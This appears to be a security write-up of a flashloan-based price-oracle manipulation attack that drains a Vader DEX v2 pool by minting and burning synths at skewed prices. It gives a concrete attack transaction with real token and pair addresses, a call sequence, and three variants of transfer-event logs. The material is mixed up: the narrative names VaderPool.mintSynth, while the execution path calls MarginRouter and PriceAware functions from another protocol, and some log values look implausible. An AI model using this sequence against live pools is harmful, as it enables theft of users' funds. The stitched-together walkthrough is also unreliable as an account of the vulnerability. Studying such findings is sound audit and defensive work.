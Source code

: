 ## Source Code

https://github.com/code-423n4/2021-11-vader/blob/607d2b9e253d59c782e921bfc2951184d3f65825/contracts/dex-v2/pool/VaderPoolV2.sol#L126-L167

## POMA

As the pool's reserves can be manipulated through flashloans similar to on UniswapV2, an attacker may set the exchange rate between nativeAsset and synths (calculated from the reserves). An attacker can exploit this to drain funds from the pool.

The attacker first flashloans and sells a huge amount of foreignAsset to the pool. The pool now thinks nativeAsset is extremely valuable.
The attacker now uses a relatively small amount of nativeAsset to mint synths using VaderPool.mintSynth. As the pool thinks nativeAsset is very valuable the attacker will receive a huge amount of synths.
The attacker can now manipulate the pool in the opposite direction by buying up the foreignAsset they sold to the pool. nativeAsset is now back at its normal price, or perhaps artificially low if the attacker wishes.
The attacker now burns all of their synths. As nativeAsset is considered much less valuable than at the point the synths were minted it takes a lot more of nativeAsset in order to pay out for the burned synths.
For the price of a flashloan and some swap fees, the attacker has now managed to extract a large amount of nativeAsset from the pool. This process can be repeated as long as it is profitable.

## Attack Transaction
The case that the report author indicates contains two POMA: the first one inflates foreignAsset, and the second one deflates it. However, an success POMA can be either part of them - they don't have to be executed together. In this example, I show only the first part.

```
// assign values
operator = 0x85beF3a368849FC1ff6820af7382372e30830986 (msg.sender)
token1 = 0xa0b86991c6218b36c1d19d4a2e9eb0ce3606eb48 (USDC, as foreignAsset)
token2 = 0xc02aaa39b223fe8d0a0e5c4f27ead9083c756cc2 (WETH, as nativeAsset)
amount0Out = 10e8
amount1Out = 0
to = operator
token = token2
inAmount = amount0Out
amountOut = 0
amountInMax = amount0Out
pairs = [0xb4e16d0168e52d35cacd2c6185b44281ec28c9dc (UniSwapV2)]
tokens = [USDC]
deadline = block.timestamp + 7200

// execution path
UniSwapV2.swap(amount0Out, amount1Out, to, bytes(0))
PriceAware.getCurrentPriceInPeg(token, inAmount, forceCurBlock=true)
MarginRouter.crossSwapTokensForExactTokens(amountOut, amountInMax, pairs, tokens, deadline)
```

## Transfer Event
### Variant 1 (single transaction)
```
block_hash, transaction_hash, log_index, token_address, from_address, to_address, value
block#1, transaction#1, log#1, token1, operator, UniSwapV2, 10e8
block#1, transaction#1, log#2, token2, UniSwapV2, operator, 71777521544720215
block#1, transaction#1, log#3, token2, operator, MarginRouter, 71777521544720215
block#1, transaction#1, log#4, token1, operator, MarginRouter, 145927841345707238222094
block#1, transaction#1, log#5, token2, operator, MarginRouter, 71777521544720215
block#1, transaction#1, log#6, token1, operator, MarginRouter, 145927841345707238222094
```


### Variant 2 (separate transaction, same block)
1 POMA + 2 Arbitrage

```
block_hash, transaction_hash, log_index, token_address, from_address, to_address, value
block#1, transaction#1, log#1, token1, operator, UniSwapV2, 10e8
block#1, transaction#1, log#2, token2, UniSwapV2, operator, 71777521544720215
block#1, transaction#2, log#1, token2, operator, MarginRouter, 71777521544720215
block#1, transaction#2, log#2, token1, operator, MarginRouter, 145927841345707238222094
block#1, transaction#3, log#1, token2, operator, MarginRouter, 71777521544720215
block#1, transaction#3, log#2, token1, operator, MarginRouter, 145927841345707238222094
```

### Variant 3 (separate transaction, separate block)
1 POMA + 2 Arbitrage

```
block_hash, transaction_hash, log_index, token_address, from_address, to_address, value
block#1, transaction#1, log#1, token1, operator, UniSwapV2, 10e8
block#1, transaction#1, log#2, token2, UniSwapV2, operator, 71777521544720215
block#2, transaction#2, log#1, token2, operator, MarginRouter, 71777521544720215
block#2, transaction#2, log#2, token1, operator, MarginRouter, 145927841345707238222094
block#2, transaction#3, log#1, token2, operator, MarginRouter, 71777521544720215
block#2, transaction#3, log#2, token1, operator, MarginRouter, 145927841345707238222094
```